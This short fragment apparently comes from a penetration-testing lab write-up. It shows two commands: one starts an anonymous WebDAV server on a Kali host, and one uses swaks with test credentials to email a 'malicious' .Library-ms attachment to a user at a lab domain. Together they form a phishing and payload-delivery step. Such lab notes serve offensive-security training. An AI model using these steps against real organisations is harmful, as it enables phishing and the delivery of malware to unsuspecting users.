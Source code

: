 ```
/usr/local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

Craft email to place malicious file over smtp
```
sudo  swaks --auth-user test@supermagicorg.com --auth-password test --to dave.wizard@supermagicorg.com --from test@supermagicorg.com --server supermagicorg.com --attach config.Library-ms --port 25
```